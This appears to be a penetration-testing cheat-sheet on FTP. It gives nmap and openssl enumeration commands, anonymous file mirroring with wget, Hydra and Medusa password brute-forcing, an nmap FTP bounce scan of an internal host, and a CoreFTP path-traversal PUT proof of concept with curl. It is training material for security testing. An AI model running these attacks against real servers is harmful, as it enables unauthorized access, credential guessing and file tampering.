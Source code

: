 The File Transfer Protocol (FTP) is a standard network protocol used to transfer files between computers. It also performs directory and files operations, such as changing the working directory, listing files, and renaming and deleting directories or files. By default, FTP listens on port TCP/21.
# Enumeration
```
sudo nmap -sC -sV -p 21 192.168.2.142
```
Download all available files
```
wget -m --no-passive ftp://anonymous:anonymous@<ip>
```
the default configuration of vsFTPd can be found in `/etc/vsftpd.conf` There is a file called `/etc/ftpusers` that we also need to pay attention to, as this file is used to deny certain users access to the FTP service. 
It looks slightly different if the FTP server runs with TLS/SSL encryption. Because then we need a client that can handle TLS/SSL. For this, we can use the client `openssl` and communicate with the FTP server. The good thing about using `openssl` is that we can see the SSL certificate, which can also be helpful.
```
openssl s_client -connect 10.129.14.136:21 -starttls ftp
```
Find nmap NSE scripts for FTP:
```
find / -type f -name ftp* 2>/dev/null | grep scripts
```
FTP file transfer binary. Before you transfer any file through FTP, input the binary command within the ftp console
```
binary
```
FTP transfer Linux → Windows
1. Download pyftpdlib if it is not available: `apt-get install python-pyftpdlib`
2. `python3 -m pyftpdlib -p 21 --write`
3. On your windows machine connect through ftp login anonymous and put the windows_server.c file
# FTP Attacks
## FTP Brute Force
```
Hydra -L <username list> -P <password list> ftp://IP -t 64
```
```
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp
```
## FTP Bounce Attack
An FTP bounce attack is a network attack that uses FTP servers to deliver outbound traffic to another device on the network. The attacker uses a PORT command to trick the FTP connection into running commands and getting information from a device other than the intended server. 
Consider we are targetting an FTP Server FTP_DMZ exposed to the internet. Another device within the same network, Internal_DMZ, is not exposed to the internet. We can use the connection to the FTP_DMZ server to scan Internal_DMZ using the FTP Bounce attack and obtain information about the server's open ports. Then, we can use that information as part of our attack against the infrastructure.
The Nmap -b flag can be used to perform an FTP bounce attack
```
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```
## Latest FTP Vulnerabilities: CoreFTP
This FTP service uses an HTTP POST request to upload files. However, the CoreFTP service allows an HTTP PUT request, which we can use to write content to files. Let's have a look at the attack based on our concept.
```
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```
We create a raw HTTP PUT request (-X PUT) with basic auth (--basic -u <username>:<password>), the path for the file (--path-as-is https://<IP>/../../../../../whoops), and its content (--data-binary "PoC.") with this command. Additionally, we specify the host header (-H "Host: <IP>") with the IP address of our target system.